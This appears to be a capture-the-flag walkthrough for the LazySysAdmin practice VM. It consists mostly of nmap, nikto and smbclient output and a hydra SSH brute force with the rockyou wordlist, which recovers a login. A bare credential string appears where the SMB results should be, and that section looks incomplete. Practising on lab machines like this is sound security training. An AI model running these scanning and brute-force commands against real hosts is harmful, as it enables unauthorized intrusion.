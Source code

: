 # LazySysAdmin VM Walkthrough


Netdiscover result:

       Currently scanning: 192.168.48.0/16   |   Screen View: Unique Hosts           
                                                                                       
         3 Captured ARP Req/Rep packets, from 2 hosts.   Total size: 126               
         _____________________________________________________________________________
           IP            At MAC Address     Count     Len  MAC Vendor / Hostname      
         -----------------------------------------------------------------------------
         192.168.42.129  9a:d1:53:35:56:b5      2      84  Unknown vendor              
         192.168.42.55   08:00:27:c1:be:89      1      42  PCS Systemtechnik GmbH 
         
Nmap results:         

        $sudo nmap -sS -sV -p- -A 192.168.42.55
        
        
        Starting Nmap 7.93 ( https://nmap.org ) at 2023-06-02 18:16 IST
        Stats: 0:00:12 elapsed; 0 hosts completed (1 up), 1 undergoing Service Scan
        Service scan Timing: About 83.33% done; ETC: 18:16 (0:00:02 remaining)
        Nmap scan report for 192.168.42.55
        Host is up (0.00045s latency).
        Not shown: 65529 closed tcp ports (reset)
        PORT     STATE SERVICE     VERSION
        22/tcp   open  ssh         OpenSSH 6.6.1p1 Ubuntu 2ubuntu2.8 (Ubuntu Linux; protocol 2.0)
        | ssh-hostkey: 
        |   1024 b538660fa1eecd41693b82cfada1f713 (DSA)
        |   2048 585a6369d0dadd51ccc16e00fd7e61d0 (RSA)
        |   256 6130f3551a0ddec86a595bc99cb49204 (ECDSA)
        |_  256 1f65c0dd15e6e421f2c19ba3b655a045 (ED25519)
        80/tcp   open  http        Apache httpd 2.4.7 ((Ubuntu))
        |_http-server-header: Apache/2.4.7 (Ubuntu)
        |_http-title: Backnode
        | http-robots.txt: 4 disallowed entries 
        |_/old/ /test/ /TR2/ /Backnode_files/
        |_http-generator: Silex v2.2.7
        139/tcp  open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
        445/tcp  open  netbios-ssn Samba smbd 4.3.11-Ubuntu (workgroup: WORKGROUP)
        3306/tcp open  mysql       MySQL (unauthorized)
        6667/tcp open  irc         InspIRCd
        | irc-info: 
        |   server: Admin.local
        |   users: 1
        |   servers: 1
        |   chans: 0
        |   lusers: 1
        |   lservers: 0
        |   source ident: nmap
        |   source host: 192.168.42.230
        |_  error: Closing link: (nmap@192.168.42.230) [Client exited]
        MAC Address: 08:00:27:C1:BE:89 (Oracle VirtualBox virtual NIC)
        Device type: general purpose
        Running: Linux 3.X|4.X
        OS CPE: cpe:/o:linux:linux_kernel:3 cpe:/o:linux:linux_kernel:4
        OS details: Linux 3.2 - 4.9
        Network Distance: 1 hop
        Service Info: Hosts: LAZYSYSADMIN, Admin.local; OS: Linux; CPE: cpe:/o:linux:linux_kernel

        Host script results:
        | smb-os-discovery: 
        |   OS: Windows 6.1 (Samba 4.3.11-Ubuntu)
        |   Computer name: lazysysadmin
        |   NetBIOS computer name: LAZYSYSADMIN\x00
        |   Domain name: \x00
        |   FQDN: lazysysadmin
        |_  System time: 2023-06-02T22:46:38+10:00
        |_clock-skew: mean: -3h20m00s, deviation: 5h46m24s, median: 0s
        | smb2-security-mode: 
        |   311: 
        |_    Message signing enabled but not required
        |_nbstat: NetBIOS name: LAZYSYSADMIN, NetBIOS user: <unknown>, NetBIOS MAC: 000000000000 (Xerox)
        | smb-security-mode: 
        |   account_used: guest
        |   authentication_level: user
        |   challenge_response: supported
        |_  message_signing: disabled (dangerous, but default)
        | smb2-time: 
        |   date: 2023-06-02T12:46:38
        |_  start_date: N/A

        TRACEROUTE
        HOP RTT     ADDRESS
        1   0.45 ms 192.168.42.55

        OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
        Nmap done: 1 IP address (1 host up) scanned in 23.67 seconds
        
        
use the link to get some direct        
        
        http://192.168.42.55/robots.txt
        
        
        User-agent: *
        Disallow: /old/
        Disallow: /test/
        Disallow: /TR2/
        Disallow: /Backnode_files/       
Busting directories with nikto:

        
        $nikto -h http://192.168.42.55                                                             
        
        - Nikto v2.5.0
        ---------------------------------------------------------------------------
        + Target IP:          192.168.42.55
        + Target Hostname:    192.168.42.55
        + Target Port:        80
        + Start Time:         2023-06-02 18:28:05 (GMT5.5)
        ---------------------------------------------------------------------------
        + Server: Apache/2.4.7 (Ubuntu)
        + /: The anti-clickjacking X-Frame-Options header is not present. See: https://developer.mozilla.org/en-US/docs/Web/HTTP/Headers/X-Frame-Options
        + /: The X-Content-Type-Options header is not set. This could allow the user agent to render the content of the site in a different fashion to the MIME type. See: https://www.netsparker.com/web-vulnerability-scanner/vulnerabilities/missing-content-type-header/
        + No CGI Directories found (use '-C all' to force check all possible dirs)
        + /test/: Directory indexing found.
        + /robots.txt: Entry '/test/' is returned a non-forbidden or redirect HTTP code (200). See: https://portswigger.net/kb/issues/00600600_robots-txt-file
        + /old/: Directory indexing found.
        + /robots.txt: Entry '/old/' is returned a non-forbidden or redirect HTTP code (200). See: https://portswigger.net/kb/issues/00600600_robots-txt-file
        + /Backnode_files/: Directory indexing found.
        + /robots.txt: Entry '/Backnode_files/' is returned a non-forbidden or redirect HTTP code (200). See: https://portswigger.net/kb/issues/00600600_robots-txt-file
        + /robots.txt: contains 4 entries which should be manually viewed. See: https://developer.mozilla.org/en-US/docs/Glossary/Robots.txt
        + Apache/2.4.7 appears to be outdated (current is at least Apache/2.4.54). Apache 2.2.34 is the EOL for the 2.x branch.
        + /: Server may leak inodes via ETags, header found with file /, inode: 8ce8, size: 5560ea23d23c0, mtime: gzip. See: http://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2003-1418
        + OPTIONS: Allowed HTTP Methods: OPTIONS, GET, HEAD, POST .
        + /apache/: Directory indexing found.
        + /apache/: This might be interesting.
        + /old/: This might be interesting.
        + /phpmyadmin/changelog.php: Retrieved x-powered-by header: PHP/5.5.9-1ubuntu4.22.
        + /phpmyadmin/changelog.php: Uncommon header 'x-ob_mode' found, with contents: 0.
        + /test/: This might be interesting.
        + /info.php: Output from the phpinfo() function was found.
        + /info.php: PHP is installed, and a test script which runs phpinfo() was found. This gives a lot of system information. See: CWE-552
        + /icons/README: Apache default file found. See: https://www.vntweb.co.uk/apache-restricting-access-to-iconsreadme/
        + /info.php?file=http://blog.cirt.net/rfiinc.txt: Remote File Inclusion (RFI) from RSnake's RFI list. See: https://gist.github.com/mubix/5d269c686584875015a2
        + /wordpress/wp-content/plugins/akismet/readme.txt: The WordPress Akismet plugin 'Tested up to' version usually matches the WordPress version.
        + /wordpress/wp-links-opml.php: This WordPress script reveals the installed version.
        + /wordpress/: Drupal Link header found with value: <http://192.168.42.55/wordpress/index.php?rest_route=/>; rel="https://api.w.org/". See: https://www.drupal.org/
        + /wordpress/: A Wordpress installation was found.
        + /phpmyadmin/: phpMyAdmin directory found.
        + /wordpress/wp-login.php?action=register: Cookie wordpress_test_cookie created without the httponly flag. See: https://developer.mozilla.org/en-US/docs/Web/HTTP/Cookies
        + /wordpress/wp-login.php?action=register: Wordpress registration enabled.
        + /wordpress/wp-content/uploads/: Directory indexing found.
        + /wordpress/wp-content/uploads/: Wordpress uploads directory is browsable. This may reveal sensitive information.
        + /wordpress/wp-login.php: Wordpress login found.
        + 8258 requests: 0 error(s) and 32 item(s) reported on remote host
        + End Time:           2023-06-02 18:28:11 (GMT5.5) (6 seconds)
        ---------------------------------------------------------------------------
        + 1 host(s) tested
We could see smb is hosted in the vm by nmap scan

So we can try connecting to it with smbclient command:

         $smbclient -L 192.168.42.55
        
Results:







TogieMYSQL12345^^



        # hydra -l togie -P /usr/share/wordlists/rockyou.txt ssh://192.168.42.55/ -t 4
        Hydra v9.4 (c) 2022 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

        Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2023-06-02 19:02:38
        [WARNING] Restorefile (you have 10 seconds to abort... (use option -I to skip waiting)) from a previous session found, to prevent overwriting, ./hydra.restore
        [DATA] max 4 tasks per 1 server, overall 4 tasks, 14344399 login tries (l:1/p:14344399), ~3586100 tries per task
        [DATA] attacking ssh://192.168.42.55:22/
        [22][ssh] host: 192.168.42.55   login: togie   password: 1234
